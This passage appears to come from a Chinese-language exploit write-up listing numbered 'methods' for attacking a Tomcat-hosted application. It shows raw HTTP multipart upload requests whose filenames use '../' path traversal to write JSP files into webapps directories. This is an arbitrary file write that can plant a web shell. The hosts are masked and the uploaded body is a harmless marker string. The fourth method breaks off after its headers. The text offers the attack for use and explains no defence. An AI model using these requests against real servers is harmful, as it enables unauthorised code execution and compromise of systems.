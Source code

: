 方法2  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST xxxxxxxxxxx HTTP/1.1User-Agent: PostmanRuntime/7.29.2Accept: */*Postman-Token: 1ac225cc-bdbe-4176-b806-a9a7c796ee33Host: xxxxxxConnection: closeContent-Type: multipart/form-data; boundary=--------------------------180188939909122941133151Cookie: JSESSIONID=A0A01DAF36544051C724ABCCB20A0EA6Content-Length: 285  
    ----------------------------180188939909122941133151Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hello.jsp"Content-Type: application/octet-stream  
      
    wiki kaisa  
      
    ----------------------------180188939909122941133151--

# 方法3

(和方法1不同路由）

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST xxxxxxxxxxxx HTTP/1.1Host: xxxxxPragma: no-cacheCache-Control: no-cacheUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36Accept: */*Referer:Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=YWQ2ODliNDYtNjNjOS00YWVlLWI0OTUtOWVmNjc0ZmRkYjIz; CASTGC=TGT-32-1-E511C90CB1B349359F28B9F5FC0EABBC-MsKr7i0M7FQiEahdWtwfezUTFeWB3Dc0IXTaJKf0b2JA5Gon5v-casConnection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundarypLDFXMzpLNrJrxRJContent-Length: 210  
    ------WebKitFormBoundarypLDFXMzpLNrJrxRJContent-Disposition: form-data; name="file";filename="../../../tomcat85linux64.1/webapps/issc/static/abcd123.jsp"  
      
    wiki kaisa  
    ------WebKitFormBoundarypLDFXMzpLNrJrxRJ--

# 方法4

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST xxxxxxxxxxx HTTP/1.1Host: xxxxxxAccept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type: application/jsonContent-Length: 5424  